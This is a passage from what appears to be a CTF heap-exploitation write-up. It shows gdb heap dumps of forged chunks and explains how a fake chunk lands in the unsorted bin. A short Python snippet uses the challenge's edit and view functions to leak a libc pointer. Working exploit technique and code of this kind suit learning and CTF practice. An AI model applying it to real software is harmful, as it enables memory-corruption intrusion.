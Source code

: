 ```
0x5565109c0860:	0x0000000000000000	0x0000000000000071 <- Pad 12
0x5565109c0870:	0x000000000000001b	0x5252525252525252
0x5565109c0880:	0x5252525252525252	0x5252525252525252
0x5565109c0890:	0x0000000000000000	0x0000000000000041 <- Fake 12
0x5565109c08a0:	0x0000000000000000	0x0000000000000000
0x5565109c08b0:	0x0000000000000000	0x0000000000000000
0x5565109c08c0:	0x0000000000000000	0x0000000000000000
0x5565109c08d0:	0x0000000000000000	0x0000000000000071 <- Pad 13
0x5565109c08e0:	0x000000000000001c	0x5252525252525252
0x5565109c08f0:	0x5252525252525252	0x5252525252525252
0x5565109c0900:	0x0000000000000000	0x0000000000000041 <- Fake 13
0x5565109c0910:	0x0000000000000000	0x0000000000000000
0x5565109c0920:	0x0000000000000000	0x0000000000000000
0x5565109c0930:	0x0000000000000000	0x0000000000000000
0x5565109c0940:	0x0000000000000000	0x0000000000000071 <- Pad 14
0x5565109c0950:	0x000000000000001d	0x5252525252525252
0x5565109c0960:	0x5252525252525252	0x5252525252525252
0x5565109c0970:	0x0000000000000000	0x0000000000000041 <- Fake 14
0x5565109c0980:	0x0000000000000000	0x0000000000000000
0x5565109c0990:	0x0000000000000000	0x0000000000000000
0x5565109c09a0:	0x0000000000000000	0x0000000000000000
0x5565109c09b0:	0x0000000000000000	0x0000000000020651
```

we can see above that Fake 10 is a bit different than the other fake chunks, it has prev size set to 0x500 and prev in use bit set to 0 this means our fake chunk B passed the checks in free and got successfully inserted into unsorted bin. We can also so in B metadata that it contains libc pointers


# repeat the leak process for libc after free-ing the fake unsorted bin chunk

We repeat the same process as for the heap leak to read the libc pointer

``` py


edit(padd(b'\x07'),padd(b'\x01\x00\x07'),'X'*24) ###

view_(padd(b'\x08'))

```

heap layout : 


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x5858585858585858
0x5565109c02b0:	0x5858585858585858	0x5858585858585858 <- B
0x5565109c02c0:	0x00007f17c31d9cc0	0x00007f17c31d9cc0
0x5565109c02d0:	0x0000000000000000	0x0000000000000000 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000000071
```
